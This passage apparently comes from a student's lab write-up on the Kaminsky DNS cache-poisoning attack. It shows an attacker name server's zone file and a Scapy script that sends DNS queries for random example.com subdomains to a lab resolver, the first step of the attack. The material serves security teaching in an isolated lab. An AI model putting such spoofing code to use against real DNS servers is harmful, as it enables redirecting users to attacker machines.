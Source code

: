 In this case, we get a different IP for the same domain: `1.2.3.5`. The request is done specifically to the `ns.attacker32.com` name server and, as its value was cached due to the first DNS query performed, we contact it directly, and according to the `/etc/bind/zone_example.com` file in the attacker's name server, this should be the corresponding IP address for the `www.example.com` domain, as shown here:

```
root@9ab2d93f7aeb:/# cat /etc/bind/zone_example.com 
$TTL 3D
@       IN      SOA   ns.example.com. admin.example.com. (
                2008111001
                8H
                2H
                4W
                1D)

@       IN      NS    ns.attacker32.com.

@       IN      A     1.2.3.4
www     IN      A     1.2.3.5
ns      IN      A     10.9.0.153
*       IN      A     1.2.3.6
```

## Our goal

Our goal in this lab is to redirect the user to a machine B when he tries to get to a machine A using A's domain name. This can be done by poisoning the DNS server's cache so that when he requests the address corresponding to A's domain name, it answers with B's address. Overall, that's the entire purpose of the Kaminsky attack itself.

> Implementing the Kaminsky attack all at once is quite challenging, so we break it down into several sub-tasks. In Task 2, we construct the DNS request for a random hostname in the `example.com` domain. In Task 3, we construct a spoofed DNS reply from `example.com`'s name server. In Task 4, we put everything together to launch the Kaminsky attack and in Task 5 we verify the impact of the attack.

## Task 2

Since the Kaminsky Attack was split into several tasks, the first goal is to make the initial DNS Request.
This task is successful if we can trigger the DNS Server into sending DNS Queries so that we can spoof DNS Replies in the future. The following python script shows how a simple DNS request can be built using Scapy:

```python
from scapy.all import * 
import random, string

def randomword(length):
   letters = string.ascii_lowercase
   return ''.join(random.choice(letters) for i in range(length))

attackerIP = "10.9.0.1"
apolloIP = "10.9.0.53"

Qdsec = DNSQR(qname=randomword(5) + '.example.com')
dns = DNS(id=0xAAAA, qr=0, qdcount=1, ancount=0, nscount=0,arcount=0, qd=Qdsec)

ip = IP(dst=apolloIP, src=attackerIP)
udp = UDP(dport=53, sport=RandShort(), chksum=0)
request = ip/udp/dns

send(request) 
```
